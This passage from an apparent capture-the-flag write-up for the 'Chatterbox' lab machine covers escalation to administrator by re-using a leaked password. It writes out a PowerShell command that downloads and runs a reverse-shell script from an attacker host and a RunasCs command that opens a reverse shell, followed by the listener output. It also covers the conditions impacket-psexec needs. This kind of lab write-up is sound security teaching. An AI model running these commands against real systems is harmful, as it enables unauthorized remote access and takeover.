 ```console
```

2. Use nishang's Invoke-PowerShellTcp.ps1 with re-used credential

```console
PS C:\qwe> $user='administrator'
PS C:\qwe> $pass='Welcome!'|ConvertTo-SecureString -AsPlainText -Force
PS C:\qwe> $cred=New-Object System.Management.Automation.PSCredential($user,$pass)
PS C:\qwe> Start-Process -FilePath 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.24/rev.ps1')" -Credential $cred
```

3. Use `RunasCs` to execute commands as admin

```console
# PoC
PS C:\qwe> ./RunasCs.exe administrator Welcome1! "cmd /c whoami"
chatterbox\administrator

# Exploit
PS C:\qwe> ./RunasCs.exe administrator Welcome1! cmd.exe -r 10.10.16.24:6666
[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 6244 created in background.
-----------------------------------------------------------------------------
└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.91.236] 49186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\administrator
```

## Exploit Chain

port scan: AChat system with CVE -> msf exploit & migrate session -> credential leakage & re-use credential -> psexec | powershell nishang revshell | runascs -> admin shell

## Beyond Root

### psexec login

To successfully log in using `impacket-psexec`, the following conditions are needed:

- **Valid Credentials**: You must possess valid Windows login credentials, either a username and password or a username and NTLM hash (also known as a password hash).
- **Network Access**: You must be able to access the target system over the network. This typically means that the firewall settings of the target system allow inbound connections from your current system.
- **Sharing and Services**: The target Windows system must have the Server Service (responsible for file and print sharing) and Remote Procedure Call (RPC) services enabled. `impacket-psexec` relies on these services to upload temporary services or execute code.
- **Appropriate Permissions**: Your account credentials must have sufficient permissions to create services on the target machine. Typically, this means you must have administrative rights.
- **SMB and RPC Endpoints Open**: The target system must have the SMB service open on TCP ports 139/445 and allow RPC communication.
- **Remote Service Management**: Windows systems usually allow administrative users to create and manage services over the network, which is the basis for `impacket-psexec` to work.
